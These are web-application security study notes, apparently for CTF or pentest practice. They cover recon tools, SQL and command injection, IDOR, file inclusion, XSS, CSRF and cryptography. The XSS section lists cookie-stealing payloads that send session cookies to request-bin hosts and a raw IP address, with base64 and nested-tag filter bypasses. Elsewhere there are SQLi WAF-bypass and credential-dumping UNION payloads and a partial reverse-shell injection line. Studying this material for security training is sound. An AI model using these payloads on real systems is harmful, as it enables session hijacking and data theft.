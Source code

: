 # Review

## Recon

Active:

* `nmap`, `masscan`, DNS brute forcing, subdomain
* `dirb`, `dirbuster`, `gobuster`, etc.

Passive:

* using a proxy, [`linkfinder`](https://github.com/GerbenJavado/LinkFinder)
* developer tools network tab
* public resources ([dnsdumpster.com](https://dnsdumpster.com/), etc.)

Recon checklist:

* [ ] Direct site links

    ``` sh
    python3 link-finder.py <url>
    ```

* [ ] Certificate transparency ([crt.sh](https://crt.sh))

    ``` txt
    https://crt.sh/?q=<domain>
    ```

* [ ] Brute force incl. subdomains, subdirectories etc.  

    ``` sh
    # subdomains
    sublist3r -v -d <domain> -o outfile -b
    ```

* [ ] Developer Tools
    * [ ] View page source for comments or subdirectory files
    * [ ] Console
    * [ ] Subdirectory files
    * [ ] `robots.txt`
    * [ ] Cookies
* [ ] Email protocols (SPF, DKIM, DMARC)

    ``` sh
    # spf
    dig _spf.<domain> TXT
    # dmarc
    dig _dmarc.<domain> TXT
    ```

## Authentication

### SSO

**Single sign-on (SSO)** is a session and user authentication service that lets a user use ***one*** set of login credentials to access ***multiple*** applications.

![sso](../imgs/sso.png)

### SAML

**Security Assertion Markup Language (SAML)** is a variant of XML used to transfer security info. It is somewhat outdated; mostly OAuth now.  
A **service provider** is a site you want to sign in for.  
A **identity provider** is a site which provides your identity (e.g. Facebook, Google etc.)

SAML provides authentication to the user. Your application is responsible for authorisation.

## Server-Side

### SQLi

``` sql
'/**/oR+'2'='2
```

Troubleshooting:

* Check your quote style; `"` or `'`
* Check URL encoding (use a proxy, `<C-u>` in BurpSuite)
* Terminate with a comments `-- -`
* Write a toy application to test your query syntax

Payloads:

* `OR 1=1` (True), `AND 1=2` (False), `OR 9=9` (WAF Bypass)
    * Alternative comments: `/**/`, `//`, `#`
    * Just `TRUE` or `FALSE` instead of expressions
    * `||` for `or`
* `UNION SELECT (new query, matching columns)`

``` sql
SELECT * FROM items where blah = 1 UNION SELECT name,pass,3 from users where ...
```

E.g. <https://portwatsonfishing.com/sqli.php?name=item1%22+union+select+name,pass,3+from+users+where+%221%22=%221>

Rules:

1. Query 1 needs the **same columns AND column types** as Query 2
2. The query must match quotes/braces, and end cleanly

### Injection

``` php
system('zip'+$_GET["id"]+'.zip /lol/*')
id=;python -c 'import sockert ...'
```

Typically when the server confuses data with code.

* SQL
* Shell commands (e.g. unsafe calls to `system()`)
* Sub-processes (e.g. tainted input to pdf generator)

Pretend you're writing the app. Where would vulnerabilities be?  
Use `sleep` commands if you can get outputs.

Reverse shell cheat sheet: <https://highon.coffee/blog/reverse-shell-cheat-sheet/>

### IDOR/Access Control

> <http://lol.com/sekrit.php?id=4>  
> <http://lol.com/adminsonly.php>

Occurs when the server doesn't validate access to a resource, data item or function.

* Authorisation vs Authentication: some instances need you to log in, but don't care who you're logged in as
* If you have a login, enumerate URLs when logged in, log out, enumerate them again
* Don't stop at `id=<yourid+1>`, try `id=1`, `id=0`

Check links carefully; HTML comments, JavaScript

### File Inclusion

> <http://lol.com/print.php?file=http://lol2.com/pew>

Occurs when the server fails to validate a path to a file.

* Can you upload a file? Does it have to be the same format?
* Can you supply a URL?
* Can you supply content directly (e.g. PHP filters, including `stdin`/`stderr`, log files etc.)

If you can't get it working, build a test application in the target language and try with toy example first.

## Client-Side

### XSS

> <http://lol.com/hello.php?name%3Cb%3Elol%3C%5Cb%3E>

* **Reflected**: server inserts payload directly into response.  
Exploit by sending a link
* **Stored**: poison data stored in back-end, displayed back later.  
Exploit by inserting poisoned values and waiting.
* **DOM-based**: inserting it directly into the DOM (e.g. via JS)

You typically want to exfiltrate the cookie, but ***not always***

Sample payloads:

``` html
<script>fetch("https://enu1mo7548jr.x.pipedream.net/"+document.cookie)</script>
<script>window.location="http://178.128.122.17?c="+document.cookie</script>
<script>new Image().src="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script>
<img src=x onerror="this.src='https://en6u61jn3hyji.x.pipedream.net?c='+document.cookie">
<script>document.write("<img+src=https://enu1mo7548jr.x.pipedream.net"%2b+document.cookie%2b+"></img>")</script>
```

Possible bypasses:

* `document['cookie']` instead of `document.cookie`
* encoding:
    * JavaScript: `btoa` (b64 encode) and `atob` (b64 decode)

        ``` js
        fetch(`${atob('aHR0cHM6Ly9lbnUxbW83NTQ4anIueC5waXBlZHJlYW0ubmV0P2M9')}${document['cookie']}`)
        ```

    * Python: getting the URL encoding of a char:

        ``` python
        hex(ord('.'))
        ```

* embedded tags: `<sc<scriptript >window.location="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script >`

### CSRF

> <http://lol.com/adduser.php?un=a&pw=a>

When someone (e.g. an admin) views a link on a domain they have stored cookies on, the browser automatically sends their cookies. If the link is an admin action, they do it as an admin.

To find these, set up your own instance of the application to audit, then exploit by sending the admin a poisoned link.  
You can launch CSRF from XSS (i.e. admin views a poisoned page, submits a new user request with parameters you control)

### CORS/CSP

**C**ross **O**rigin **R**esource **S**haring restricts where content can be ***loaded*** from.  
**C**ontent **S**ecurity **P**olicy restricts what content can actually run (via checksums)

TL;DR: Check your browser event logs and Google the specifics as they happen.

## Cryptography

**Hashing** proves integrity:

* [crackstation.net](https://crackstation.net/)
* [CyberChef](https://gchq.github.io/CyberChef/)

**Salting** hashes adds something to the plaintext before hashing avoiding pre-calculation and rainbow table attacks.  
**DON'T** use a common salt or a repeated salt.

**Encryption** provides secrecy.  
**Padding Oracle** attacks allow an attacker to decrypt information without knowing the encryption key. A padding oracle is a type of system that takes in encrypted data from the user, decrypts it and verifies whether the padding is correct or not. See [padding oracle attack](https://github.com/mpgn/Padding-oracle-attack)
